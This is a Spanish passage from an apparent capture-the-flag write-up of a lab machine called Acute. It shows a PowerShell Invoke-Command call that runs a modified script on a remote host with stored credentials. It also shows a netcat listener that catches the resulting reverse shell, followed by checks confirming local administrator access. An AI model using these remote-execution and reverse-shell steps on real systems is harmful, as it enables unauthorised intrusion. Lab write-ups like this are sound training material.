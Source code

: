 Procederemos a ejecutar el script de PowerShell modificado y desde una consola de nuestra Kali nos pondremos en escucha por el  puerto especificado para recibir la Reverse Shell.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3035_vmware_J44aJBYOQ9.png" alt=""><figcaption></figcaption></figure>

Verificaremos que hemos logrado obtener la Reverse Shell y nos encontramos con el usuario _**jmorgan**_ en el equipo _**Acute-PC01**_. Verificamos que el usuario es Administrador local del equipo.

```bash
rlwrap -cAr nc -nlvp 443

hostname

whoami /all
```

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
